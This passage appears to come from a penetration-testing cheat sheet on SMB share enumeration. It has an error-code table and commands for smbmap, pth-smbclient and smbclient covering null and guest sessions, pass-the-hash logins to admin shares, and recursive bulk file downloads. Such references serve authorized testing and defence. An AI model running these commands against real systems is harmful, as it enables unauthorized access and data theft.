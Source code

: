 **Debug informations**

| Error  | Message             | Debug                                    |
|--------|---------------------|------------------------------------------|
| 0x5    | `rpc_s_access_denied` | Permissions on the file in the SMB share |
| 0x525  | `ERROR_NO_SUCH_USER`  | The specified account does not exist.    |
| 0x180  | unknown error code  | Share is not SMB2                        |


### Open Shares

> Some shares can be accessible without authentication, explore them to find some juicy files

* [smbmap](https://github.com/ShawnDEvans/smbmap)
  ```powershell
  smbmap -H 10.10.10.10                # null session
  smbmap -H 10.10.10.10 -R             # recursive listing
  smbmap -H 10.10.10.10 -u invaliduser # guest smb session
  smbmap -H 10.10.10.10 -d "DOMAIN.LOCAL" -u "USERNAME" -p "Password123*"
  ```

* [pth-smbclient from path-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)
  ```powershell
  pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/Share
  pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/C$
  ls  # list files
  cd  # move inside a folder
  get # download files
  put # replace a file
  ```

* [smbclient from Impacket](https://github.com/SecureAuthCorp/impacket)
  ```powershell
  smbclient -I 10.10.10.100 -L ACTIVE -N -U ""
          Sharename       Type      Comment
          ---------       ----      -------
          ADMIN$          Disk      Remote Admin
          C$              Disk      Default share
          IPC$            IPC       Remote IPC
          NETLOGON        Disk      Logon server share
          Replication     Disk      
          SYSVOL          Disk      Logon server share
          Users           Disk
  use Sharename # select a Sharename
  cd Folder     # move inside a folder
  ls            # list files
  ```

* [smbclient - from Samba, ftp-like client to access SMB/CIFS resources on servers](#)
  ```powershell
  smbclient -U username //10.0.0.1/SYSVOL
  smbclient //10.0.0.1/Share

  # Download a folder recursively
  smb: \> mask ""
  smb: \> recurse ON
  smb: \> prompt OFF
  smb: \> lcd '/path/to/go/'
  smb: \> mget *
  ```
